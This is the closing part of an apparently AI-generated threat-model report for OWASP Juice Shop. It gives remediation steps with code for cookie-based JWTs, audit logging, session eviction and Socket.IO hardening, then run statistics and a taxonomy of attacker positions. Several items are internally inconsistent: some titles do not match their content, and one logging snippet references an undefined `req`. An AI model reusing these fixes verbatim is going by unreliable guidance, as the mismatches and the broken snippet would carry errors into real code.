1. Remove `localStorage.setItem('token', ...)` from `login.component.ts` and `oauth.component.ts`. Stop reading from `localStorage` in `request.interceptor.ts`.
2. Have the Express backend set the JWT as an HttpOnly Secure SameSite=Strict cookie (`res.cookie('token', jwt, { httpOnly: true, secure: true, sameSite: 'strict' })`) on successful login. The browser will include the cookie automatically without exposing it to JavaScript.
3. Remove the Authorization header injection from `request.interceptor.ts` - rely on the browser to send the HttpOnly cookie. The backend must read `req.cookies.token` instead of `req.headers.authorization`.
4. Clear the cookie server-side on logout (`res.clearCookie('token')`) rather than `localStorage.removeItem('token')`.

```javascript
// Express login route — after
res.cookie('token', jwt, {
  httpOnly: true,
  secure: process.env.NODE_ENV === 'production',
  sameSite: 'strict',
  maxAge: 8 * 60 * 60 * 1000
})
res.json({ status: 'success' })  // no token in body
```

**Reference:** CWE-922

---

<a id="m-048"></a>
#### M-048 — Add security audit logging

**Addresses:**

- 🟡 [F-041](#f-041) — Missing Authentication Event Audit Log (`routes/login.ts:18`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/login.ts:19`

**How:** Add a structured logger (e.g. `winston` with JSON transport) and emit `{ event: 'login_success', userId, email, ip: req.ip, timestamp }` inside `afterLogin()` at `routes/login.ts:19`. Emit `{ event: 'login_failure', email: req.body.email, ip: req.ip, reason: 'bad_credentials' }` in the `else` branch at line 50. Emit `{ event: 'password_reset', userId: data.UserId, ip: req.ip }` in `routes/resetPassword.ts:43` after a successful update. Route audit logs to an append-only sink (file with log-rotation, or a SIEM) that application code cannot modify.

1. Add a structured logger (e.g. `winston` with JSON transport) and emit `{ event: 'login_success', userId, email, ip: req.ip, timestamp }` inside `afterLogin()` at `routes/login.ts:19`.
2. Emit `{ event: 'login_failure', email: req.body.email, ip: req.ip, reason: 'bad_credentials' }` in the `else` branch at line 50.
3. Emit `{ event: 'password_reset', userId: data.UserId, ip: req.ip }` in `routes/resetPassword.ts:43` after a successful update.
4. Route audit logs to an append-only sink (file with log-rotation, or a SIEM) that application code cannot modify.

```javascript
// routes/login.ts — afterLogin function
import logger from '../lib/logger'
function afterLogin(user, res, next) {
  logger.info({ event: 'login_success', userId: user.data.id,
    email: user.data.email, ip: req.ip })
  // ... existing logic
}
```

**Reference:** CWE-778

---

<a id="m-049"></a>
#### M-049 — Add TTL-based eviction to the in-memory authenticated-user store

**Addresses:**

- 🟡 [F-046](#f-046) — Unbounded In-Memory Session Store (`lib/insecurity.ts:76`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `lib/insecurity.ts:76`

**How:** Replace the plain object `tokenMap` with a TTL-aware structure: use `node-cache` (`new NodeCache({ stdTTL: 6 * 3600 })`) or a similar library that auto-evicts entries after the JWT lifetime. Alternatively, on each call to `authenticatedUsers.get()`, verify the JWT's `exp` claim against `Date.now()` and remove stale entries lazily. For production deployments, replace the entire in-memory store with a Redis-backed session store (`connect-redis`) that inherits Redis's native key expiry.

1. Replace the plain object `tokenMap` with a TTL-aware structure: use `node-cache` (`new NodeCache({ stdTTL: 6 * 3600 })`) or a similar library that auto-evicts entries after the JWT lifetime.
2. Alternatively, on each call to `authenticatedUsers.get()`, verify the JWT's `exp` claim against `Date.now()` and remove stale entries lazily.
3. For production deployments, replace the entire in-memory store with a Redis-backed session store (`connect-redis`) that inherits Redis's native key expiry.

**Reference:** CWE-400

---

<a id="m-050"></a>
#### M-050 — Rate-limit and lock out repeated authentication attempts

**Addresses:**

- 🟡 [F-047](#f-047) — Unbounded Unauthenticated WebSocket Connection (`registerWebsocketEvents.ts:19`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `lib/startup/registerWebsocketEvents.ts:19`

**How:** Set `maxHttpBufferSize` on the Socket\.IO server to limit payload size per message (e.g. `new Server(server, { maxHttpBufferSize: 1e4, ... })`). Add a connection-rate middleware using a token-bucket per IP: track connection counts in a Map keyed by `socket.handshake.address` and reject connections exceeding the threshold. Wrap each event handler callback with a per-socket rate limiter (e.g. using `socket-rate-limiter` or a simple timestamp-based window) to drop excessive messages from a single socket.

1. Set `maxHttpBufferSize` on the Socket\.IO server to limit payload size per message (e.g. `new Server(server, { maxHttpBufferSize: 1e4, ... })`).
2. Add a connection-rate middleware using a token-bucket per IP: track connection counts in a Map keyed by `socket.handshake.address` and reject connections exceeding the threshold.
3. Wrap each event handler callback with a per-socket rate limiter (e.g. using `socket-rate-limiter` or a simple timestamp-based window) to drop excessive messages from a single socket.

```javascript
const io = new Server(server, {
  cors: { origin: config.get('server.corsOrigin') },
  maxHttpBufferSize: 1e4  // 10 KB per message
})

// Per-socket message rate limit
io.on('connection', (socket) => {
  let msgCount = 0
  const resetInterval = setInterval(() => { msgCount = 0 }, 1000)
  socket.use(([event], next) => {
    if (++msgCount > 20) return socket.disconnect(true)
    next()
  })
  socket.on('disconnect', () => clearInterval(resetInterval))
})
```

**Reference:** CWE-770

---

<a id="m-051"></a>
#### M-051 — Pass JWT in Socket\.IO auth handshake and validate it server-side before accepting any connection

**Addresses:**

- 🟡 [F-048](#f-048) — Unauthenticated WebSocket Connection (`socket-io.service.ts:21`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/Services/socket-io.service.ts:21`

**How:** Update `socket-io.service.ts` to pass the auth token in the connection options: `io(origin, { auth: { token: localStorage.getItem('token') }, path: ... })`. On the Socket\.IO server (`server.js` / socket handler), add middleware that extracts `socket.handshake.auth.token`, verifies the JWT signature using the same secret/key as the REST API, and calls `next(new Error('Unauthorized'))` on failure. Transition to HttpOnly cookie-based auth (see [TH-04](#th-04) mitigation) - Socket\.IO will then automatically send the cookie in the initial HTTP upgrade request, which the server validates.

1. Update `socket-io.service.ts` to pass the auth token in the connection options: `io(origin, { auth: { token: localStorage.getItem('token') }, path: ... })`.
2. On the Socket\.IO server (`server.js` / socket handler), add middleware that extracts `socket.handshake.auth.token`, verifies the JWT signature using the same secret/key as the REST API, and calls `next(new Error('Unauthorized'))` on failure.
3. Transition to HttpOnly cookie-based auth (see [TH-04](#th-04) mitigation) - Socket\.IO will then automatically send the cookie in the initial HTTP upgrade request, which the server validates.

```javascript
// socket-io.service.ts — after
this._socket = io(window.location.origin, {
  path: socketPath,
  auth: { token: localStorage.getItem('token') ?? '' }
})

// server-side Socket.IO middleware
io.use((socket, next) => {
  const token = socket.handshake.auth?.token
  if (!token) return next(new Error('Unauthorized'))
  try { jwt.verify(token, SECRET); next() }
  catch { next(new Error('Unauthorized')) }
})
```

**Reference:** CWE-306

---

### P4 — Backlog

<a id="m-012"></a>
#### M-012 — Add a container healthcheck

**Addresses:**

- 🟢 [F-049](#f-049) — Missing HEALTHCHECK instruction — Dockerfile:1

**Priority:** P4 - Backlog · **Effort:** Low · **File:** `Dockerfile:1`

**How:** Add HEALTHCHECK CMD `curl -f http://localhost:<port>/health` - Missing HEALTHCHECK delays orchestrator detection of a hung or poisoned container.

---

<a id="m-013"></a>
#### M-013 — Pin the container base image to an immutable digest

**Addresses:**

- 🟢 [F-050](#f-050) — Renovate config not found at repo root (`renovate.json:1`)

**Priority:** P4 - Backlog · **Effort:** Low · **File:** `renovate.json:1`

**How:** Add `renovate.json` with a baseline preset (extends: ["config:base"]) OR confirm Renovate hosted-app is enabled at the repo / org level. - Renovate is a first-class peer of Dependabot for automated dependency updates. File-mode detection is best-effort; hosted-app mode is not detectable from the repo.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

## 11. Out of Scope

The following items are **explicitly excluded** from this threat model. Findings against these areas should be tracked separately.

- Third-party hosted dependencies and SaaS endpoints
- Browser runtime vulnerabilities and end-user device security
- Operating system kernel and container runtime
- Underlying network infrastructure (DNS, BGP, ISP)
- Physical security of hosting facilities

### Components Not Individually Analyzed

These components were enumerated in the architecture inventory but did not receive a dedicated STRIDE pass at this assessment depth (6 of 7 components analyzed). Re-run at a deeper depth to analyze them individually.

| ID | Component | Reason not analyzed |
|-------|----------------------|------------------------------|
| b2b-api | B2B Order API (RCE endpoint) | out-of-scope at depth=standard |

---

## Appendix: Run Statistics

| Field | Value |
|----------------------|----------------------|
| Invocation | `(not recorded)` |
| Generated | 2026-06-19 11:15 UTC |
| Mode | full |
| Assessment depth | standard |
| Plugin version | 0.4.0-beta (analysis v2) |
| Orchestrator model | sonnet |
| Repository | `/home/mrohr/juice-shop` |
| Output directory | `/home/mrohr/juice-shop/docs/security` |
| Wall clock (active) | 55m 57s |
| Agent compute (Σ parallel dispatches) | 80m 56s |

### Per-Stage Breakdown

| Stage | Description | Agent | Model | Duration | Tool calls | Tokens |
|--------|------------------------|----------------------|--------|--------|----------|---------|
| 1 | Threat Analysis & Triage | appsec-threat-analyst | sonnet | 63m 01s | 340 | 688,320 |
| 1 | Abuse Case Verification | appsec-abuse-case-verifier | sonnet | 12m 26s | 154 | 210,560 |
| 2 | Report Rendering | appsec-threat-renderer | sonnet | 5m 27s | 39 | 161,831 |
| 3 | QA Review | `qa_checks.py` | none | - | 0 | 0 |
| **Total** | - | - | - | **80m 56s** | **533** | **1,060,711** |

### Per-Phase Duration Breakdown

| Phase | Description | Agent (Model) | Duration |
|---------|------------------------------------|----------------------|--------|
| Phase 1 | Context Resolution complete (parallel with<br/>Phase 2) | threat-analyst (sonnet-4-6) | 2m 32s |
| Phase 2 | Reconnaissance complete - inline fallback<br/>(recon-scanner output recovered from… | recon-scanner (sonnet-4-6) | 7m 49s |
| Phase 3 | Architecture Modeling - 4 diagrams produced<br/>(1m00s) | threat-analyst (sonnet-4-6) | 1m 00s |
| Phase 4 | Attack Walkthroughs - deferred to Phase 11<br/>renderer (requires | threat-analyst (sonnet-4-6) | (inline) |
| Phase 5 | Asset Identification - 10 assets catalogued<br/>(1m54s) | threat-analyst (sonnet-4-6) | 1m 54s |
| Phase 6 | Attack Surface Mapping - 60 entry points<br/>(21+ unauthenticated) (1m54s) | threat-analyst (sonnet-4-6) | 1m 54s |
| Phase 7 | Trust Boundary Analysis - 7 boundaries<br/>(1m54s) | threat-analyst (sonnet-4-6) | 1m 54s |
| Phase 8 | Security Controls - 🟢 Adequate: 0 🟡 Partial:<br/>3 🟠 Weak: 2 🔴 Missing: 19 (1m31s) | threat-analyst (sonnet-4-6) | 1m 31s |
| Phase 9 | STRIDE Enumeration - 50 threats (after merge<br/>from 122 raw) | Nx stride-analyzer (sonnet-4-6) | 0m 30s |
| Phase 10 | Scan Synthesis - 51 threats | threat-analyst (sonnet-4-6) | 0m 20s |
| Phase 10b | Triage Validation - 0 flags, 50 findings<br/>ranked | appsec-triage-validator (sonnet-4-6) | 0m 45s |
| Phase 11 | Substeps 1-3 complete<br/>(STAGE1_PHASE_LIMIT=10b - stopping before<br/>fragment authoring) | threat-analyst (sonnet-4-6) | 0m 45s |
| Phase 11 | Management summary authored (RENDER_ROLE=ms) | threat-analyst (sonnet-4-6) | 3m 03s |
| Phase 11 | [§7](#7-security-architecture) enrichment (secarch) - complete | threat-analyst (sonnet-4-6) | 5m 09s |
| Phase 11 | Finalization (parallel renderer) | threat-analyst (sonnet-4-6) | 13m 48s |

---

<a id="appendix-a-vektor-taxonomy"></a>
## Appendix A — Vektor Taxonomy

This appendix defines the attacker-starting-position labels used in the Top Threats table and throughout [§8 Findings Register](#8-findings-register). Each label answers the question *what does the attacker need before the exploit begins?*

<a id="vektor-internet-anon"></a>
### Internet Anon

**Attacker position:** Unauthenticated attacker from the public internet · **Breach distance:** 1

**Preconditions:**

- Endpoint is reachable from the internet (no IP allowlist, no VPN)
- No authentication middleware blocks the request

**Typical CWEs:** [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html)

**Typical OWASP Top 10:** A01:2021, A03:2021, A07:2021

<a id="vektor-internet-user"></a>
### Internet User

**Attacker position:** Any authenticated low-privilege user (valid JWT / session) · **Breach distance:** 2

**Preconditions:**

- Attacker has signed up or otherwise obtained a valid user session
- Endpoint is behind auth but not behind role/admin checks

**Typical CWEs:** [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-287](https://cwe.mitre.org/data/definitions/287.html)

**Typical OWASP Top 10:** A01:2021, A04:2021, A05:2021, A10:2021

<a id="vektor-internet-priv-user"></a>
### Internet Priv User

**Attacker position:** Authenticated admin-level user (JWT with admin role or equivalent) · **Breach distance:** 2

**Preconditions:**

- Attacker holds admin credentials or has elevated privileges
- Endpoint gated on admin role but still exploitable once reached

**Typical CWEs:** [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-94](https://cwe.mitre.org/data/definitions/94.html)

**Typical OWASP Top 10:** A01:2021

<a id="vektor-victim-required"></a>
### Victim-Required

**Attacker position:** Attacker needs victim interaction - social engineering, crafted link, or live session · **Breach distance:** 2

**Preconditions:**

- Victim must click a link, load a page, or have an active session
- Applies to XSS, CSRF, click-jacking, open redirect

**Typical CWEs:** [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [CWE-1021](https://cwe.mitre.org/data/definitions/1021.html)

**Typical OWASP Top 10:** A01:2021, A03:2021

<a id="vektor-build-time"></a>
### Build-Time

**Attacker position:** Attacker controls a build input - CI runner, dependency, base image, or external data fetched during build · **Breach distance:** 3

**Preconditions:**

- Compromise of a dependency, registry, or base image
- OR compromise of a CI runner with write access to artifacts

**Typical CWEs:** [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [CWE-1039](https://cwe.mitre.org/data/definitions/1039.html) · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html)

**Typical OWASP Top 10:** A08:2021

<a id="vektor-repo-read"></a>
### Repo-Read

**Attacker position:** Attacker gains read access to source repository (leaked clone, forked fork, insider, compromised developer workstation) · **Breach distance:** 3

**Preconditions:**

- Read access to the source tree at or after commit time
- No runtime exploit needed - the vulnerability is the content of the repo

**Typical CWEs:** [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [CWE-540](https://cwe.mitre.org/data/definitions/540.html)

**Typical OWASP Top 10:** A02:2021, A07:2021

<a id="vektor-n-a"></a>
### n/a

**Attacker position:** Architectural / meta-finding - no runtime entry point, the finding describes a design defect aggregating multiple code-level findings

**Preconditions:**

- Finding is AF-NNN (architectural) rather than F-NNN (code-level)